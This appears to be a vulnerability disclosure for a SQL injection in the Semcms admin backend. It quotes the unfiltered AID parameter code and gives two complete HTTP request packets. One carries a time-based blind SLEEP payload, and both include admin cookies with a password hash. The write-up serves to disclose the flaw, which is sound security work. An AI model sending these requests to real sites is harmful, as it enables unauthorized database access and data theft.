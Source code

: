 ## Semcms backend SQL injection vulnerability



### Semcms  introduce

SemCms is an open-source foreign trade enterprise website management system, primarily used for foreign trade companies. It is compatible with major browsers such as IE, Firefox, Google Chrome, and 360.



### Vulnerability description

SQL Injection is a web security vulnerability that allows attackers to interfere with the queries an application makes to its database. By inserting malicious SQL statements, attackers can potentially access sensitive data, modify or delete records, and in some cases, take control of the entire database.



```
Semcms Project address

https://github.com/J1095/one
```



Locate the source code to the backend directory's `SEMCMS_Fuction.php`. The input parameter values are not filtered and are directly used in database queries.  The vulnerable parameter is AID.

```
if(isset($_POST["AID"])){$area_arr=$_POST["AID"];$area_arr = implode(",",$area_arr);}else{$area_arr="";}
```

![image-20250118230926043](./assets/image-20250118230926043.png)

![image-20250118231818600](./assets/image-20250118231818600.png)

The first vulnerability point data packet.

```
POST /G45HTO_Admin/SEMCMS_Images.php?Class=Deleted&CF=Images&page= HTTP/1.1
Host: xxxxxxxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Origin: http://testsemcms
Connection: close
Referer: http://xxxxxxxx/G45HTO_Admin/SEMCMS_Images.php
Cookie: __tins__4329483=%7B%22sid%22%3A%201733579893865%2C%20%22vd%22%3A%206%2C%20%22expires%22%3A%201733581851212%7D; __51cke__=; __51laig__=6; scusername=%E6%80%BB%E8%B4%A6%E5%8F%B7; scuseradmin=Admin; scuserpass=c4ca4238a0b923820dcc509a6f75849b
Upgrade-Insecure-Requests: 1
Priority: u=4

AID%5B%5D=243*
```

The two vulnerability point data packet.

```
POST /G45HTO_Admin/SEMCMS_Inquiry.php?Class=Deleted&CF=Inquriy&page= HTTP/1.1
Host: xxxxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 23
Origin: http://testsemcms
Connection: close
Referer: http://xxxxxxxx/G45HTO_Admin/SEMCMS_Inquiry.php
Cookie: __tins__4329483=%7B%22sid%22%3A%201733579893865%2C%20%22vd%22%3A%206%2C%20%22expires%22%3A%201733581851212%7D; __51cke__=; __51laig__=6; scusername=%E6%80%BB%E8%B4%A6%E5%8F%B7; scuseradmin=Admin; scuserpass=c4ca4238a0b923820dcc509a6f75849b
Upgrade-Insecure-Requests: 1
Priority: u=4

languageID=&AID%5B%5D=1 AND (SELECT 997 FROM (SELECT(SLEEP(5)))Iokc)
```

SQLmap verification as follows:

![Snipaste_2024-12-07_22-51-46](./assets/Snipaste_2024-12-07_22-51-46.png)



#### The affected version

```
Semcms <= 5.0
```

Malicious attackers can exploit the vulnerability to illegally obtain data and even gain unauthorized access to the website.